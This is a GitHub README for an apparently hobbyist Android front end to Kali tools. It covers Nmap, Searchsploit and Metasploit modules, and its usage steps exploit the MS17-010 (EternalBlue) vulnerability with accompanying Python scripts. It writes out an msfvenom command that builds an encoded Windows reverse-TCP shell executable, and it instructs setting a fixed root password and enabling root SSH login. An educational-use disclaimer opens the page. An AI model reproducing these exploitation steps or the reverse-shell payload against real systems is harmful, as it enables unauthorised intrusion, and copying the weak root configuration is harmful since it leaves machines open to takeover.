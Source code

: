 # Hack Into Your Heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

### Download:
```
git clone https://github.com/aifred0729-TW/hack_into_your_heart.git
```

## Usage

Install Offensive_Security on android phone or your android virtual environment.

Login page default credentials is admin:admin

Start SSH service for AI2 program connect.<br>
Download the ms17-010.sh to /root and put the command.rc to /root, ms17-010.sh will used.<br>
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.<br>
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.<br>

If you no have the shell.exe, use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Listen Port> -f exe -o shell.exe
```


### Linux Bash Module:<br>
Input the IP address of kali and input your bash command on it, than you can execute.<br>
If you know how to use the ssh, then you should be know how to use this modulel.<br>

Example Command:
```
ifconfig
```

### Nmap Module:<br>
Input the IP address of kali and target and setup the option then you can execute.<br>
Scan report will below the console.<br>


### Searchsploit Module:<br>
Input the vulnerabilities number or CMS/Service name and version.<br>
If the input CMS/Service is vulnerable, than it will show the exploit.<br>

### Metasploit Module:<br>
Input the RHost LHost to input box and select a exploit module, then you can exploit.<br>
For security reason, if metasploit successful remote code execution, the target will be shutdown in 3 second.<br>
**The Target is not 100% can be exploit**


My Email: aifred0729tw@gmail.com<br>
My Facebook: https://www.facebook.com/aifred0729TW/<br>

Try Harder!!

